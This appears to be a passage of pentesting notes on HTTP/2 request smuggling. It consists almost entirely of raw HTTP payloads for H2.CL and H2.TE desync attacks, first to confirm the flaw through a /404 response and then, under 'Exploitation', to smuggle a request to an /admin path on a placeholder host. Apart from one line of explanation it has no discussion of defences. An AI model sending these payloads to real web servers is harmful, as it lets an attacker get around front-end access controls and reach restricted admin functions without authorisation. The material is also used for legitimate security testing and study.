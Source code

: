 ### <mark style="color:purple;">H2.CL</mark> <a href="#h2-cl-vulnerabilities" id="h2-cl-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /404 HTTP/1.1
Foo: x
```

Then send another request and you'll get `/404` .

### <mark style="color:purple;">H2.TE</mark> <a href="#h2-te-vulnerabilities" id="h2-te-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

## <mark style="color:purple;">Exploitation</mark>

### <mark style="color:purple;">H2.CL</mark> <a href="#h2-cl-vulnerabilities" id="h2-cl-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

x=1
```

### <mark style="color:purple;">H2.TE</mark> <a href="#h2-te-vulnerabilities" id="h2-te-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```
